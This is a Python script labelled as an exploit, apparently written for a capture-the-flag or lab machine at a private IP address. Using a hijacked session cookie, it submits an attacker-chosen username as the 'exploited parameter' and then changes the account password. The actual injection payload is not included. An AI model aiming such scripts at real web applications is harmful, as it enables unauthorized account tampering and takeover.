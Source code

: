 
Exploit script
```py
#!/usr/bin/env python3

import requests
import argparse

parser = argparse.ArgumentParser('Experiment Runner')
parser.add_argument("--ip", type=str, default="10.10.72.11", help="Server ip")
parser.add_argument("--session_id", type=str, default="43ms4o2sedrgv2g3jtc259u3og", help="Session Id")
parser.add_argument("--name", type=str, required=True, help="Name to be set (Exploited parameter)")
parser.add_argument("--current_password", type=str, default="password", help="Current password")
parser.add_argument("--new_password", type=str, default="password", help="New password")
parser.add_argument("--name_only", action="store_true", help="Won't change the account password")

# TODO : Create account so we don't have to supply session id ?

def change_name(args):
    req_data = {
        "username":args.name,
        "country":"Afghanistan",
        "email":"user@pwn.com",
        "birthday":"2020-11-02",
        "description":""
    }

    cookie = {'PHPSESSID': args.session_id}

    print(f"Changing username to {args.name}")

    r = requests.post(f"http://{args.ip}/", data=req_data, cookies=cookie)

    if ' <span class="help-block"></span>' not in r.text:
        print("Error while changing name :")
        print(r.text.split('<div class="error has-error">')[-1].split('</div>')[0])
        return False

    return True


def change_password(args):
    req_data = {
        'password': args.current_password,
        'new_password': args.new_password
    }
    cookie = {'PHPSESSID': args.session_id}

    print("Changing password")

    r = requests.post(f"http://{args.ip}/change/", data=req_data, cookies=cookie)
    
    # Hacky way of carving out the data
    status = r.text.split('<div class="alert')[-1].split('<form ')[0]

    if "successfully" in status:
        print("Password changed")
        return True
    else:
        print("There was a problem")
        print(status)
        return False

```